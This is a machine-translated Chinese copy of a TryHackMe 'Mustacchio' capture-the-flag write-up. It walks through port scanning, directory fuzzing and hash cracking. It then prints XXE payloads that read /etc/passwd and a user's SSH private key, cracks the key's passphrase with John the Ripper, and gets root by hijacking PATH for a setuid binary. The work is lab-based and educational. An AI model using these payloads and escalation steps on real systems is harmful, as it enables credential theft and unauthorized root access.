





# TryHackMe 报道:穆斯塔基奥

> 原文：<https://infosecwriteups.com/tryhackme-writeup-mustacchio-ee526a543d8a?source=collection_archive---------1----------------------->

本文介绍了我解决**穆斯塔基奥**夺旗(CTF) 挑战、用户 *zyeinn* 在 TryHackMe 平台上创建的免费房间的方法。我在下面的参考资料中提供了 TryHackMe 平台的链接，供有兴趣尝试这款 CTF 的人使用。


# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读本文之前尝试一下这个房间，因为在这篇文章中显然会有**剧透****。我相信，如果你先自己尝试，然后在遇到困难或需要提示时再来写这篇文章，你会更喜欢 CTF。因此，没有任何进一步的拖延，让我们开始吧！**

# **挑战简介**

> **部署并破坏机器！**

**要完成挑战，需要提交两个标志:**

*   ****用户标志****
*   ****根标志****

# **列举**

**我开始用 NMAP 扫描所有打开的端口来枚举目标机器:**

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.255.169PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 61
80/tcp   open  http           syn-ack ttl 61
8765/tcp open  ultraseek-http syn-ack ttl 61
```

**我看到扫描发现三个端口打开(即 22、80 和 8765)。接下来，我使用 NMAP 扫描运行在这些端口和 NMAP 脚本上的服务，以找到任何常见的漏洞:**

```
nmap -sV -sC -Pn -v -p 22,80,8765 -oN nmap-report 10.10.225.169PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**NMAP 扫描完成后，我可以看到端口 80 和端口 8765 上有两个可用的网站。**

# **端口 80 — HTTP 网站分析**

**我首先检查了端口 80 上可用的网站，并使用 **FFuF** 对其进行模糊处理，以查找任何隐藏的文件或目录:**

```
ffuf -c -u [http://10.10.225.169/FUZZ](http://10.10.225.169/FUZZ) -w /usr/share/wordlists/dirb/common.txt -e .php,.old,.bakcustom  [Status: 301, Size: 315, Words: 20, Lines: 10] # Interesting
fonts   [Status: 301, Size: 314, Words: 20, Lines: 10]
images  [Status: 301, Size: 315, Words: 20, Lines: 10]
index.html     [Status: 200, Size: 1752, Words: 77, Lines: 73]
robots.txt     [Status: 200, Size: 28, Words: 3, Lines: 3]
server-status  [Status: 403, Size: 278, Words: 20, Lines: 10]
```

**翻看上面的输出，看到一个名为*/custom**的目录，在目录中找到一个名为 **users.bak** 的文件。我下载了该文件，可以看到它是一个 SQLite 数据库文件:***

```
*$ file users.bakusers.bak: SQLite 3.x database, last written using SQLite version 3034001*
```

***在数据库里面，我找到了一个**用户名**和 **SHA1 哈希**。我用一个在线工具破解了这个 SHA1 散列，找回了用户的密码:***

***[https://hashtoolkit.com/decrypt-sha1-hash/](https://hashtoolkit.com/decrypt-sha1-hash/)***

***我的第一反应是使用这些凭证 SSH 到目标机器，但是这不起作用。***

# ***端口 8765 — XML 外部实体(XEE)注入***

***我转到端口 8765 上的网站，找到了一个管理员登录面板:***

******

***管理员登录面板***

***使用前面发现的凭证，我可以登录到管理面板，并看到一个用于提交评论的网页表单:***

******

***用于添加注释的 Web 表单***

***浏览网页源代码，我发现了一些有趣的信息。第一个是一段 JavaScript，它有一个包含 URL 的注释(例如， */auth/dontforget.bak* )。脚本的其余部分检查提交输入的区域是否为空，如果是，创建一个警告框，告诉用户**插入 XML 代码。**这暗示了网站容易受到 XML 注入的攻击:***

```
*<script type="text/javascript">
      //document.cookie = "Example=/auth/dontforget.bak"; 
      function checktarea() {
      let tbox = document.getElementById("box").value;
      if (tbox == null || tbox.length == 0) {
        alert("Insert XML Code!")
      }
  }
</script>*
```

***使用上面找到的 URL，我可以下载**don tfore . bak**文件，并看到网站用于添加评论的 XML 结构:***

```
*<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>*
```

***另一条有趣的信息是一个开发者的评论，称一个名为 **Barry** 的用户可以使用他的密钥 SSH 到目标机器。***

```
*<!-- Barry, you can now SSH in using your key!-->*
```

***使用上面收集的信息，我现在可以准备利用网站中的 XML 注入漏洞了。我发现以下资源对于学习更多关于 XML 注入的知识很有用:***

***[](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity) [## XXE - XEE - XML 外部实体

### XML 实体是在 XML 文档中表示数据项的一种方式，而不是使用数据本身…

book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity) 

我从执行新实体测试开始，以确定简单的新实体声明是否可行。为了实现这一点，我确保使用前面在**don tform et . bak**文件中看到的 XML 结构。对于下面的 XML，当 XML 解析器解析外部实体时，结果应该包含 *< name >* 中的“Joe Hamd”和 *< author >* 中的“XML Injection”:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "XML Injection"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>&example;</author>
<com>Test paragraph</com>
</comment>
```

这是可行的，我可以看到预期的输出:



新实体攻击

接下来，我试着看看是否可以读取文件 */etc/passwd* 的内容:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Joe</author>
<com>&xxe;</com>
</comment>
```

这也是成功的，因为我可以看到 */etc/passwd* 文件的内容:



读取/etc/passwd 文件内容

现在我已经确认我可以读取文件，下一步是根据前面找到的开发人员注释检索用户 Barry 的 SSH 密钥:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM 'file:////home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Joe</author>
<com>&xxe;</com>
</comment>
```

使用上面的 XML 注入，我能够检索 SSH 密钥:



检索用户 Barry 的 SSH 密钥

现在我有了 SSH 密钥，我更改了密钥的权限并尝试登录，但是系统提示我输入密码:

```
$ chmod 600 id_rsa$ ssh -i id_rsa barry@10.10.225.169
Enter passphrase for key 'id_rsa':
```

为了检索 SSH 密钥的密码，我使用开膛手约翰来破解它:

```
# Create a hash for John to crack
$ python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash# Crack the Hash
$ sudo john id_rsa.hash -wordlist=/home/kali/Downloads/Capture-The-Flag/Password-Lists/rockyou.txt
```

开膛手约翰成功地从哈希中检索到了密码短语。我能够 SSH 到目标机器并获得用户标志:

```
barry@mustacchio:~$ cat user.txt62d77a4d5f97d.........
``` 

# ***根权限提升-路径变量***

***获得用户标志后，我开始寻找一种方法来提升我的特权到 root。我在用户 */home/joe* 目录下发现了一个名为 **live_log** 的 ELF 二进制文件:***

```
*$ file live_log live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped*
```

***使用 **strings** 命令，我可以看到二进制文件正在使用 **tail** 命令读取*/var/log/nginx/access . log*文件中的最后 10 个条目:***

```
*_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log  <--- Interesting
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
crtstuff.c*
```

***我可以看到为文件设置了 **SUID 位**,并且它使用了**尾**二进制，但没有指定完整路径。我们可以通过创建一个新的二进制文件并编辑$PATH 环境变量来生成一个根 shell。我发现以下资源有助于了解利用此漏洞的更多信息:***

***[](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) [## 使用路径变量提升 Linux 权限

### 在解决了几个 OSCP 挑战之后，我们决定写一篇关于用于 Linux 的各种方法的文章…

www.hackingarticles.in](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) 

为了生成一个根 shell，我在 */tmp* 文件夹中创建了一个名为 **tail、**的文件，当执行该文件时将生成一个 shell。然后，我编辑$PATH 变量，指向我创建文件的位置。一旦我完成了这个过程，我再次执行了 **live_log** ELF 二进制文件，这产生了一个根 shell:

```
barry@mustacchio:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
barry@mustacchio:~$ cd /tmp
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ chmod 777 tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ cd /home/joe/
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe#
```

最后，我可以拿到根旗并完成挑战。

```
root@mustacchio:/home/joe# cat /root/root.txt
3223581420d9.........
``` 

# ***结束语***

***我真的很喜欢在这台机器上工作，并且有机会学习更多关于 XML 注入攻击的知识。谢谢你一直读到最后，继续黑下去😄！***

***[](https://tryhackme.com/) [## 网络安全培训

### TryHackMe 是一个免费的学习网络安全的在线平台，使用动手练习和实验室，通过您的…

tryhackme.com](https://tryhackme.com/)***